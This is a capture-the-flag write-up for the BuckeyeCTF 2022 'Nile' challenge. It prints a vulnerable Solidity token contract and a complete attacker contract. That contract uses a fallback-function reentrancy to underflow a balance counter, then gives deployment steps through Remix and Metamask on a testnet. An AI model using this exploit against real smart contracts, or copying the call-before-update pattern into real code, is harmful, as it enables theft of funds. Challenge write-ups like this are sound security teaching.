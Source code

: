 # Nile - BuckeyeCTF 2022
### Introduction
Nile is a beginner (why was this beginner?) misc. task in the 2022 BuckeyeCTF. The project description is as follows:

I wrote my first smart contract on Ethereum, deployed onto the Görli testnet, you have got to check it out! To celebrate it's launch, I'm giving away free tokens, you just have to redeem your balance. Connect to the server to see the contract address.

`nc -v nile.chall.pwnoh.io 13379`

### Process
Running the netcat gives the following:
```
Hello! The contract is running at 0x7217bd381C35dd9E1B8Fcbd74eaBac4847d936af on the Goerli Testnet.
Here is your token id: 0x0aff2a3e450768b95c9e99196842a636
Are you ready to receive your flag? (y/n)
```
The given token id is different every time the netcat is run. The given address for the contract links to a page on the Ethernet Goerli Testnet Network [here](https://goerli.etherscan.io/address/0x7217bd381C35dd9E1B8Fcbd74eaBac4847d936af). This links to a smart contract, Nile, written in [Solidity](https://docs.soliditylang.org/en/v0.8.17/#):
```Solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.7.6;


contract Nile {
    mapping(address => uint256) balance;
    mapping(address => uint256) redeemable;
    mapping(address => bool) accounts;

    event GetFlag(bytes32);
    event Redeem(address, uint256);
    event Created(address, uint256);
    
    function redeem(uint amount) public {
        require(accounts[msg.sender]);
        require(redeemable[msg.sender] > amount);

        (bool status, ) = msg.sender.call("");

        if (!status) {
            revert();
        }

        redeemable[msg.sender] -= amount;

        balance[msg.sender] += amount;

        emit Redeem(msg.sender, amount);
    }

    function createAccount() public {
        balance[msg.sender] = 0;
        redeemable[msg.sender] = 100;
        accounts[msg.sender] = true;

        emit Created(msg.sender, 100);
    }

    function createEmptyAccount() public {
        // empty account starts with 0 balance
        balance[msg.sender] = 0;
        accounts[msg.sender] = true;
    }

    function deleteAccount() public {
        require(accounts[msg.sender]);
        balance[msg.sender] = 0;
        redeemable[msg.sender] = 0;
        accounts[msg.sender] = false;
    }

    function getFlag(bytes32 token) public {
        require(accounts[msg.sender]);
        require(balance[msg.sender] > 1000);

        emit GetFlag(token);
    }
}
```
I chose to run the smart contracts on [Remix](https://remix.ethereum.org). Note: make sure to match the compiler version to the version called with `pragma solidity ^x.y.z;` at the top of the file. 

Reading through the contract, we can see that we want to call the function `getFlag()`. In order to call `getFlag()` we need `accounts[msg.sender] == true` and `balance[msg.sender] > 1000`.  `redeem(amount)` can increase `balance[msg.sender]`, however, the amount we can redeem must be smaller than `redeemable[msg.sender]` and every time we redeem, that amount is subtracted from `redeemable[msg.sender]`. `redeemable[msg.sender]` is set to 100 every time `createAccount()` is called, but we need 1000 tokens. 

The solution here is to cause an **integer underflow** in `redeemable[msg.sender]` so that we can redeem an amount greater than 99 due to the underflow. 

#### Integer Underflow
In order to cause integer underflow, we will utilize Solidity's [**fallback function**](https://docs.soliditylang.org/en/v0.8.12/contracts.html#fallback-function). `msg.sender.call("")` calls the fallback function ([found here](https://ethereum.stackexchange.com/questions/42521/what-does-msg-sender-call-do-in-solidity)) which is called in the `redeem()` function. `msg.sender` points to the person or contract who is currently connecting to the contract ([found here](https://stackoverflow.com/questions/48562483/solidity-basics-what-msg-sender-stands-for)). So we can write another contract which calls the Nile contract's `redeem()` function which would then call the fallback function of the contract we write. 

In the fallback function itself, we want to call `deleteAccount()` and then `createEmptyAccount()`. `deleteAccount()` sets `redeemable` to 0, and `createEmptyAccount()`, unlike `createAccount()`, does not initialize `redeemable` to anything. So, when `redeemable[msg.sender] -= amount;` is called, we would subtract some positive value from 0, resulting in integer underflow. We then need to write a couple other functions to call `redeem()` and `getFlag()`. 
```Solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.7.6;
import "./Nile.sol";

contract Thing {
    Nile nile;
    
    constructor() {
        nile = Nile(0x7217bd381C35dd9E1B8Fcbd74eaBac4847d936af);
    }
    
    function underflow() public {
        (bool result, ) = address(nile).call(abi.encodeWithSignature("redeem(uint256)",99));
        require(result, "Call has failed");
    }

    function flag() public {
        (bool result, ) = address(nile).call(abi.encodeWithSignature("getFlag(bytes32)",0x8f9154156d73b0fcda140cb2b7b6ddf900000000000000000000000000000000));
        require(result, "Call has failed");
    }

    function account() public {
        (bool result, ) = address(nile).call(abi.encodeWithSignature("createAccount()",""));
        require(result, "Call has failed");
    }

    function bigRedeem() public {
        (bool result, ) = address(nile).call(abi.encodeWithSignature("redeem(uint256)",9999));
        require(result, "Call has failed");
    }

    receive() external payable {
        (bool result, ) = address(nile).call(abi.encodeWithSignature("deleteAccount()",""));
        require(result, "Call has failed");
        (bool result2, ) = address(nile).call(abi.encodeWithSignature("createEmptyAccount()",""));
        require(result2, "Call has failed");
    }
}
```
Details about the code I used can be found in the Code section.
The order of the functions to be called is as follows:

0. The constructor calls the address of the Nile contract that is on the blockchain network, which should be done when the smart contract is deployed.
1. `account()` to create an account. 
2. `underflow()` calls `redeem(99)` which will call the fallback function. The fallback function is `receive() external payable` which calls `deleteAccount()` and `createEmptyAccount()`. 
3. `bigRedeem()` is called after the underflow, redeeming 9999 tokens. 
4. `flag()` which calls `getFlag()` with the token given from the netcat. The token has to be padded right to reach 32 bytes since `getFlag()` only accepts `bytes32`. 

After calling `getFlag()` with the token given by the netcat, return to the terminal, type `y`, and get the flag. 

#### How to Run This (Remix & Metamask)
1. Set up a crypto wallet (I used Metamask plugin). 
2. Use a Goerli faucet ([here](https://goerlifaucet.com) or [here](https://goerli-faucet.pk910.de)) to give yourself some ~~fake~~ Eth.
3. Import contract Thing. Compile it. 
4. To test the code on VM servers:  
	1. Import the Nile smart contract. 
	2. Deploy the Nile smart contract to a VM server and copy its local address (which can be found under "Deployed Contracts"):
	![Copy Local Address.png|](https://github.com/Sinkasha/buckeyeCTF-writeups/blob/main/Copy%20Local%20Address.png)
	3. Paste the local address into the constructor in contract Thing. 
	4. Deploy Thing, run the functions. Check that each function call on Thing emits an event in logs (more on this in the Code section). 
	5. Make sure to change the address back to the actual address instead of the local address when running it on the Goerli test network. 
5. Run the netcat to get the token id and paste it into contract Thing.
6. Deploy Thing to Injected Provider - Metamask. 
7. Run the functions in the order given above, making sure to wait for the transaction to be confirmed before running the next function. If everything is running correctly, the transactions should show up on the Etherscan blockchain network. 
8. Go back to the console and type `y` to get the flag. 

#### Code
This section is dedicated to Solidity / Remix things.

Importing the contract and then calling the address in the constructor seemed to work better than other options such as:
```
address nile = 0x7217bd381C35dd9E1B8Fcbd74eaBac4847d936af;
nile.call(abi.encodeWithSignature("function()",""));
```
or creating a Nile object:
```
Nile nile = Nile(0x7217bd381C35dd9E1B8Fcbd74eaBac4847d936af)
nile.call(abi.encodeWithSignature("function()",""));
```

Method calls from a different contract only worked for me with the following format: 
```
(bool result, ) = address(nile).call(abi.encodeWithSignature("createAccount()",""));
require(result, "Call has failed");
(bool result2, ) = address(nile).call(abi.encodeWithSignature("redeem(uint256)",9999));
require(result2, "Call has failed");
```
Calling it in any other way gave me an out of gas but Contract Execution Completed error on the Etherscan blockchain network. Despite it saying that Contract Execution Completed, this did not work. Format found [here](https://ethereum.stackexchange.com/questions/84839/status-is-successful-but-got-internal-transaction-out-of-gas). `abi.encodeWithSignature()` found [here](https://ethereum.stackexchange.com/questions/9733/calling-function-from-deployed-contract). There should be no spaces between the parameters and the parameters should use their full names (`uint256` instead of just `uint`)([found here](https://ethereum.stackexchange.com/questions/67572/abi-encodewithsignature-did-not-work)). 

When running this smart contract on Remix, ensure that the methods in contract Nile are being called from contract Thing by checking the logs in the transaction details. Some of the functions in Nile `emit` events which will be output to the logs. Use this to ensure that the contract is actually calling another contract's function. 
![Example of Working Log.png](https://github.com/Sinkasha/buckeyeCTF-writeups/blob/main/Example%20of%20Working%20Log.png)
*A `Thing.account()` call which emits an event for creating an account.*
